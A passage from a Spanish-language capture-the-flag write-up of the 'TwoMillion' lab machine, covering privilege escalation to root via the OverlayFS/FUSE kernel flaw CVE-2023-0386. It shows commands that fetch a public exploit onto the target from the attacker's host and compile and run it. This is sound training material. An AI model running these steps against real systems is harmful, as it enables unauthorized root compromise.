

Genial, ya tenemos acceso al usuario `admin`, por lo que ahora tendremos que enumerar de nuevo el sistema desde el contexto de este usuario.

### Enumeración del sistema - admin

Tras estar enumerando el sistema con este usuario revisando los grupos a los que pertenece, permisos de sudo, binarios con permiso SUID, etc, conseguimos ver que en el directorio `/var/mail` existe un fichero `admin` en el que podemos ver el siguiente contenido:

```
admin@2million:/home/admin$ cat /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Parece que hablan sobre realizar una actualización del sistema, ya que existe una `CVE` que les afecta y que está relacionada con `OverlayFS / FUSE`, también podemos ver que el correo es del `2023`, por lo que buscaremos en `Google` alguna CVE que sea de esa fecha y tenga relación con lo que comentan:



Econtramos el siguiente [repositorio de GitHub](https://github.com/puckiestyle/CVE-2023-0386) con el que podremos explotar la vulnerabilidad que mencionaban en el correo, por lo que clonamos el repositorio en nuestra Kali y subimos todos los ficheros a la máquina para compilar los binarios en la propia máquina:

```bash
git clone https://github.com/puckiestyle/CVE-2023-0386.git
cd CVE-2023-0386
tar -czvf exploit.tar.gz .
python -m http.server 80
```



Desde la máquina, creamos una carpeta en el directorio `/tmp/` y descargamos los ficheros para luego extraerlos:

```bash
mkdir /tmp/exploit/
cd /tmp/exploit/
wget 10.10.14.141/exploit.tar.gz
tar -xvf exploit.tar.gz
```



Compilamos los binarios y ejecutamos el comando que nos indicaban en el repositorio para explotar la vulnerabilidad:

```bash
make all
./fuse ./ovlcap/lower ./gc
```



Ahora lo que tenemos que hacer es conectarnos con otra terminal con `SSH` y ejecutamos el binario que nos falta para finalmente obtener `root`:

```bash
./exp
```



```bash
root@2million:/tmp/exploit# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

Tras ejecutar el binario ya vemos que conseguimos `root`, por lo que ya tendríamos privilegios máximos en la máquina.

## Post-Explotación

En un entorno real, se realizarían otro tipo de tareas en esta fase. En este caso, lo que haremos será obtener las flags para simular una exfiltración de información:

```
cat user.txt 
b9723e*************************
```

```
root@2million:/root# cat root.txt 
1b03b1*************************
```

## Resumen
La máquina `TwoMillion` se trata de una máquina `Linux` con el servicio `SSH` en el puerto `22/tcp` y una página web en el puerto `80/tcp`. Tras enumerar la web, vemos que hay un sistema de códigos de invitación para poder registrarse en la plataforma. Revisando las rutas y los ficheros de la página, encontramos una ruta de la `API` en la que podemos ver todos los endpoints que tiene la plataforma y en el que encontramos un endpoint para generar los códigos de invitación. Creamos un código de invitación y nos registramos con un usuario, con el que accedemos a la plataforma. Después de enumerar la web, volvemos a revisar los endpoints y probamos a usar los datos del usuario que hemos creado para hacer peticiones contra los endpoints de `admin`, con los que conseguimos dar permisos de `admin` a nuestro usuario y después conseguimos explotar un `RCE` inyectando un comando el endpoint para generar el fichero `openvpn` del endpoint de `admin`. Accedemos al sistema con una `Reverse Shell` y enumerando el sistema encontramos un fichero llamado `.env` con las credenciales de la `BBDD` del usuario `admin`. Probamos a acceder vía `SSH` con esas credenciales y conseguimos acceder. Volvemos a enumerar el sistema y encontramos un correo en el que mencionan que sería necesario realizar una actualización, ya que una `CVE` relacionada con `OverlayFS / FUSE` les afecta. Encontramos un repositorio de GitHub con el que podemos explotar la vulnerabilidad `CVE-2023-0386` y obtenemos `root`.